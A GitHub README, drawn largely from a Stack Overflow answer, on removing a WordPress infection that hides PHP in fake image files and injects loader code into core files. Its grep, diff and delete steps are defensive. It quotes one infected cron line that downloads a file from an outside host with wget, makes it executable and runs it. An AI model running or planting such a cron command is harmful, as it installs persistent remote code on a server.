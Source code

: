 # Clean-Wordpress-Hack
This repository contains common hack issues of the wordpress 

# To clean the common .htaccess hack follow this url below 
https://stackoverflow.com/questions/67296060/hacked-wordpress-htaccess

I had the same problem and the antivirus was not able to detect it and also the problem of automatically creating files was not related to CronJobs, as friends mentioned. In fact, every time a page is opened from the site, those files are rebuilt.

I have carefully examined the issue and offer the solution.

The problem occurs for both .htaccess and index.php.

.htaccess infected file index.php infected file

First we search for a keyword in the text of the file:

# grep -lir "wjsindex.php" ./
./wp-admin/images/arrow-rights.png
./wp-includes/images/smilies/icon_crystal.gif
./.htaccess
For another file, we search for a keyword in the text:

# grep -lir "RZXiMOEbYmVH" ./
./wp-admin/images/arrow-lefts.png
./index.php
./wp-includes/images/smilies/icon_devil.gif
If you look at the contents of these found image files, you will see that they are not images and contain malicious code that exactly matched our two original files.

Sample:

sample malicious arrow-rights.png file sample malicious arrow-lefts.png file

We now search for all four files found:

# grep -lirE "arrow-rights.png|icon_crystal.gif|arrow-lefts.png|icon_devil.gif" ./
./wp-includes/load.php
./wp-includes/template-loader.php
If you edit these two results files. At the bottom of the file load.php and at the beginning of the file template-loader.php you will see the extra code that needs to be removed. (Starting with //ckIIbg)

diff wp-includes/load.php files diff wp-includes/template-loader.php files

To find out more exactly which sections are correct and which are malicious, just replace that file from another WordPress that you are sure is safe and the same version, or find and remove the extra sections with the diff command.
Thus:

# diff  ./wp-includes/load.php ~healthy/www/wp-includes/load.php
# diff  ./wp-includes/template-loader.php ~healthy/www/wp-includes/template-loader.php
And as a final step, delete the four malicious image files:

# rm -f ./wp-admin/images/arrow-rights.png ./wp-includes/images/smilies/icon_crystal.gif ./wp-admin/images/arrow-lefts.png ./wp-includes/images/smilies/icon_devil.gif
Edited:

And also check cronjobs (/var/spool/cron/username) for be like this infected line and remove it:

* * * * * wget -q -O xxxd http://hello.hahaha666.xyz/xxxd && chmod 0755 xxxd && /bin/sh xxxd /home//username/public_html 24 && rm -f xxxd
This code create a ./css/index.php file and can be deleted.

# After All still you website is regenerating index.php or htaccess 
You need to restart your server or Kill all the process that are running for your server
